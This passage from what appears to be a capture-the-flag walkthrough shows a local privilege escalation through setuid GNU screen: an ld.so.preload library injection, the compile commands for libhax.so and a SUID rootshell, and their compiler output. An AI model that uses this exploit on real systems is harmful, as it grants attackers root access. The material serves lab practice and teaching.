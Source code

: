 `/etc/ld.so.preload` holds a list of libraries that will attempt to be loaded each time any program is run. So the next time something runs as root, the malicious library will run as root. The script kicks that off by calling screen again:

    screen -ls # screen itself is setuid, so... 
    

Finally, it will call the now SUID .`/tmp/rootshell`

### Run It

I tried to just upload the script to Haircut and run it, but it had some issue compiling things locally. I resorted to compiling locally on my host. I’ll create the two c files on my VM, and then compile them:

    root@kali# gcc -fPIC -shared -ldl -o libhax.so libhax.c 
    libhax.c: In function ‘dropshell’:
    libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
        7 |     chmod("/tmp/rootshell", 04755);
          |     ^~~~~
    root@kali# gcc -o rootshell rootshell.c 
    rootshell.c: In function ‘main’:
    rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
        3 |     setuid(0);
          |     ^~~~~~
    rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
        4 |     setgid(0);
          |     ^~~~~~
    rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
        5 |     seteuid(0);
          |     ^~~~~~~
    rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
        6 |     setegid(0);
          |     ^~~~~~~
    rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
        7 |     execvp("/bin/sh", NULL, NULL);
          |     ^~~~~~
    rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]
    

There are some warnings, but both binaries exist:

    root@kali# ls -l libhax.so rootshell
    -rwxrwx--- 1 root vboxsf 16136 Sep  3 22:23 libhax.so
    -rwxrwx--- 1 root vboxsf 16824 Sep  3 22:23 rootshell
    